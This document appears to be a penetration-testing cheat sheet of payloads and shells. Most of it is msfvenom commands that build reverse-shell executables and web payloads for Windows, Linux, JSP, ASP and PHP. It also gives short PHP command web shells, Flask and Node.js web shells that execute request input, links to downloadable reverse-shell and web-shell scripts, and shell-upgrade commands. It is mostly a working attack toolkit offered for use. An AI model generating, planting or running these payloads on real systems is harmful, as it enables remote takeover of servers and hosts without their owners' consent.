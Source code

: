 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp  

or in kali
```
locate cmdjsp.jsp
```
### ASP
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp  
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp  

or in kali
```
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx  

or in kali
```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
```
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs
```
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl
-> Find and edit
```
locate perl-reverse-shell.pl
```

## Spawn tty via Python
```
python -c 'import pty;pty.spawn("/bin/bash")';
```

## Spawn an upgraded shell
```
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```
stty raw -echo; fg 
```

### tools to make life easier
-> revshell generator  
https://www.revshells.com/

-> CyberChef  
https://gchq.github.io/CyberChef/

-> urlencoder  
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php
